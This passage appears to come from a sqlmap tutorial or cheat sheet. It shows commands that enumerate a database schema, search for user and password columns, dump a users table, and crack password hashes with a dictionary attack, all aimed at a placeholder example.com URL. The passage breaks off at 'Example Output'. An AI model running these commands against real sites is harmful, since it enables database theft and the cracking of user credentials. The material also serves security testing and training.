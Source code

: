 ***

### <mark style="color:blue;">**1. Enumerating Database Schema**</mark>

To retrieve the structure of all tables in the database and understand its architecture, use the `--schema` option:

```bash
sqlmap -u "http://www.example.com/?id=1" --schema
```

***

### <mark style="color:blue;">**2. Searching for Specific Data**</mark>

When databases are large, use the `--search` option to locate specific identifiers (e.g., table names or columns).

**Search for Table Names:**

```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

**Search for Column Names:**

```bash
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

***

### <mark style="color:blue;">**3. Dumping Specific Tables**</mark>

Once you identify a table of interest, retrieve its contents using the `-T` option:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

***

### <mark style="color:blue;">**4. Cracking Passwords**</mark>

If a table contains password hashes, SQLMap can attempt to crack them using a dictionary-based attack.

1.  **Trigger the Attack:** After dumping the table, SQLMap detects hash-like data and prompts:

    ```bash
    do you want to crack them via a dictionary-based attack? [Y/n/q]
    ```
2. **Choose a Dictionary:**
   * Default dictionary: Press Enter.
   * Custom dictionary: Provide a file path.
   * List of dictionaries: Specify a list.
3.  **Example Output:**
